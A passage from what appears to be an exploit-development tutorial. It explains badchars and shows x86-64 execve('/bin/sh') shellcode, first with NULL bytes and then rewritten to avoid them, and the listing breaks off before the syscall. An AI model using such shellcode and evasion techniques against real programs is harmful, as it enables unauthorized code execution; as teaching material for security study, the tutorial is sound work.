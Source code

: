 These `00` characters are an example of something exploit developers refer to as badchars. Badchars are basically hex values that should not appear in our shellcode because they cause the target program to behave differently. NULLs may not be the only badchar in a target program; they are just the most common. For example, if you were targetting a networking application that used 0x09 (tab) to indicate the end of a message, then 0x09 would also be a badchar that you would avoid using in your shellcode.

Whenever you have characters that cause the target program to behave in a special way, you should treat those characters as badchars and avoid using them in your shellcode. Here, we will go over a method you can use in order to remove NULL characters from your shellcode.

## Removing NULLs

```
b8 3b 00 00 00          mov    eax,0x3b
bb 00 00 00 00          mov    ebx,0x0
53                      push   rbx
48 bb 2f 62 69 6e 2f    movabs rbx,0x68732f6e69622f
73 68 00
53                      push   rbx
48 89 e7                mov    rdi,rsp
be 00 00 00 00          mov    esi,0x0
ba 00 00 00 00          mov    edx,0x0
0f 05                   syscall
```

In order to remove the `00` values, we have to first figure out what causes them. When we look at the object dump (shown above), we can see that there are two main reasons why our shellcode contains NULLs:
1. Doing `mov` commands with zeros in the input will lead to zeros in the shellcode.
2. Doing `mov` commands without enough "space" in the input will cause zeros to be automatically appended at the end.

To get around the first issue, we can just use `xor reg, reg` instead of `mov reg, 0`. XORing something with itself will always result in zero. Getting around the second issue will take more steps. We'll first have to zero out the register by using `xor reg, reg`, and then we'll have to move the amount that we want into a smaller register (i.e. use `al` or something instead of `rax`). Another thing that we can do is we can move the high end bits into a smaller register, shift the register left, and move the low end bits into the smaller register.

When we do all of these things, we end up with the following assembly code:
```
section .text ; Text section for code
global _start ; Begins execution at _start
_start:

; Get 59 in rax 
xor rax, rax ; Clear the rax register
mov al, 59 ; Syscall for execve

; Push a string terminator onto the stack
xor rbx, rbx ; Sets rbx to NULL
push rbx ; Pushes a NULL byte onto the stack

; Push /bin/sh onto the stack, and get a pointer to it in rdi
mov ebx, 0x68732f6e ; Moves "n/sh" (written backwards in ASCII) into lower-end bits of rbx
shl rbx, 16 ; Pushes "n/sh" to the left to make more room for 2 more bytes in rbx
mov bx, 0x6962 ; Move "bi" into lower-end bits of rbx. rbx is now equal to "bin/sh" written backwards
shl rbx, 16 ; Makes 2 extra bytes of room in rbx
mov bh, 0x2f ; "Moves /" into rbx. rbx is now equal to "\x00/bin/sh" written backwards
             ; Note that we are moving 0x2f into bh, not bl. So there is a NULL byte at the beginning
push rbx ; Push the string onto the stack
mov rdi, rsp ; Get a pointer to the string "\x00/bin/sh" in rdi
add rdi, 1 ; Add one to rdi, which will get rid of the NULL byte at the beginning.
```